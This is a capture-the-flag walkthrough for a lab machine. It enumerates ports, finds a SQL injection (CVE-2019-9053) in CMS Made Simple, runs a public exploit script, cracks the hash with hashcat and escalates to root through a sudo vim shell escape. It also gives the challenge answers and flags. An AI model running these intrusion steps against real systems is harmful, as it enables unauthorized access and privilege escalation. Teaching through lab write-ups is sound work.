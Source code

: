 **1. How many services are running under port 1000?**

Let's start with enumerationg the machine using NMAP and save the result to txt file:
`nmap -sS -sV -A <IP> -oN nmap.txt`
```
snip ...
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.36.242
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
snip ...
```
We can see there are three open ports and two of them are under 1000. 


**2. What is running on the higher port?**

ssh is running on port 2222

**3.What's the CVE you're using against the application?**

Now, we need to enumerate a little bit to find out our CVE to use. Our NMAP showing us that there is an apache server is running on port 80, let's go and open it using our IP. 
![apache](https://user-images.githubusercontent.com/101599690/215180783-3b774595-dcc9-4904-bfb6-42e225ebe59a.png)

There is nothing really intersting here, it just a defaul apache server webpage. Let's try find if there are any hidden directories using dirb. 
`dirb http://IP /usr/share/dirb/wordlists/common.txt`

We found there is a directory called `simple`, let's look at it. Go to `http://IP/simple/`.

Looking around, we found the website is `CMS made simple`. 

![CMS](https://user-images.githubusercontent.com/101599690/215182559-ae148fb7-2604-49d2-962d-49ef80e011f6.png)

**Now we need to know the version of the website, to know exactly which CVE we are going to use. The website shows us the version at the bottom of the webpage, which is `2.2.8`.**

![simple](https://user-images.githubusercontent.com/101599690/215182740-d12c48ae-bea3-4014-a111-b0d3534f3025.png)

**Using searchploit to find out the vulnerability of this webpage version.** 

`searchploit CMS made simple 2.2.8`

![Screenshot 2023-01-27 150318](https://user-images.githubusercontent.com/101599690/215186517-fed48b5f-cf27-4a08-bfa9-312955df29b8.png)

Now we know the vunlerability we are going to use, and searching in `cve.mitre.org` we know the CVE-ID sis `CVE-2019-9053`. 

**3. What's the CVE you're using against the application?**

`CVE-2019-9053`

**4. To what kind of vulnerability is the application vulnerable?**

`SQLI`

**5. What's the password?**

Searching about this CVE, I found there is a script to get the username and hash password. I get the script from `https://github.com/e-renna/CVE-2019-9053`.

Let's use the script on the simple webpage. `python3 exploit.py -u http://IP/simple/`.

![ssss](https://user-images.githubusercontent.com/101599690/215186636-8ea7ad0d-3e86-44cb-9d14-46958e466b3f.png)


The script gives us the a salt password and hash password. We can crack the paswword using the hash and salt using hashcat. Storing the `hash:salt` using this foramt to a text file and cun `hashcat -a 0 -m 20 password.txt password.txt /usr/share/wordlists/rockyou.txt`. We specify the hash is of type md5 `-a 0` and choosing the format `20 = md5($salt.$pass)` by `-m 20`. 

![hashcat](https://user-images.githubusercontent.com/101599690/215195389-921d8ac1-4865-43a4-bca1-73e55507343b.png)


I found the password is `secret`. Now, we have the username and password. We can try to login using ssh service `ssh mitch@IP -p2222`. 

![ssh](https://user-images.githubusercontent.com/101599690/215196554-1dd9c106-23d4-423a-8c7c-922f413fbb3d.png)

**6. Where can you login with the details obtained?**

ssh

**7. What's the user flag?**

G00d j0b, keep up!

**8. Is there any other user in the home directory? What's its name?**

We can enumerate the machine and go to `/home` to see and get the other username which is `sunbath`.

**9. What can you leverage to spawn a privileged shell?**

To see our privilege we can do `sudo -l` and find that we have `vim` 

![sudo -l](https://user-images.githubusercontent.com/101599690/215198408-0bfed614-095f-4abe-bfc0-ce34f919191c.png)

To see what we can do with `vim` command, `https://gtfobins.github.io/` is a good source. 

![vim](https://user-images.githubusercontent.com/101599690/215199003-79303d82-0ab9-410a-96f9-42778a760d5c.png)

so we can run a shell using `sudo vim -c ':!/bin/sh'` and escalate our privileges. 

![root](https://user-images.githubusercontent.com/101599690/215199506-95136a6a-76d1-469c-8232-baf08e1265e8.png)

Lets do `ls /root` and then read the flag of the user `cat /root/root.txt` and get the flag `W3ll d0n3. You made it!`
